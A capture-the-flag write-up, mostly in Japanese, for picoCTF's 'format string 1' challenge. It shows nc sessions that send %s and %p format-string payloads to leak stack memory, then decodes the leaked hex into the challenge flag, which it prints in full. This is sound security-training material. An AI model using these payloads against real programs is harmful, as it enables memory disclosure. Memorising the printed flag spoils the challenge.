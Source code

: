# format string 1:Binary Exploitation:100pts
Patrick and Sponge Bob were really happy with those orders you made for them, but now they're curious about the secret menu. Find it, and along the way, maybe you'll find something else of interest!  
Download the binary [here](format-string-1).  
Download the source [here](format-string-1.c).  
Connect with the challenge instance here:  
`nc mimas.picoctf.net 59379`  

Hints  
1  
https://lettieri.iet.unipi.it/hacking/format-strings.pdf  
2  
Is this a 32-bit or 64-bit binary?  

# Solution
バイナリ、ソースと接続先が渡される。  
試しに接続すると、エコーバックしてくれるプログラムでfsbがある。  
```bash
$ nc mimas.picoctf.net 59379
Give me your order and I'll read it back to you:
satoki
Here's your order: satoki
Bye!

$ nc mimas.picoctf.net 59379
Give me your order and I'll read it back to you:
%s%s%s%s%s
Here's your order: Here's your order: (null)(null)%s%s%s%s%s

Bye!
```
`%X$s`でスタックのX番目の文字列へアクセスできるが、近場を探してもフラグは見つからない。  
おそらく文字列へのポインタではなく、文字列がそのままスタックに乗っていると考え`%p`を用いる。  
```bash
$ nc mimas.picoctf.net 59379
Give me your order and I'll read it back to you:
%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p
Here's your order: 0x402118,(nil),0x7faae7e20a00,(nil),0x17a4880,0xa347834,0x7fff13577fc0,0x7faae7c11e60,0x7faae7e364d0,0x1,0x7fff13578090,(nil),(nil),0x7b4654436f636970,0x355f31346d316e34,0x3478345f33317937,0x31655f673431665f,0x7d383130386531,0x7,0x7faae7e388d8,0x2300000007,0x206e693374307250,0xa336c797453,0x9,0x7faae7e49de9,0x7faae7c1a098,0x7faae7e364d0,(nil),0x7fff135780a0,0x70252c70252c7025
Bye!
```
hexをASCIIにすると以下のようにflagが含まれていた。  
```bash
$ python
~~~
>>> from ptrlib import *
>>> p64(0x7b4654436f636970)
b'picoCTF{'
>>> p64(0x355f31346d316e34)
b'4n1m41_5'
>>> p64(0x3478345f33317937)
b'7y13_4x4'
>>> p64(0x31655f673431665f)
b'_f14g_e1'
>>> p64(0x7d383130386531)
b'1e8018}\x00'
>>> p64(0x7b4654436f636970) + p64(0x355f31346d316e34) + p64(0x3478345f33317937) + p64(0x31655f673431665f) + p64(0x7d383130386531)
b'picoCTF{4n1m41_57y13_4x4_f14g_e11e8018}\x00'
```

## picoCTF{4n1m41_57y13_4x4_f14g_e11e8018}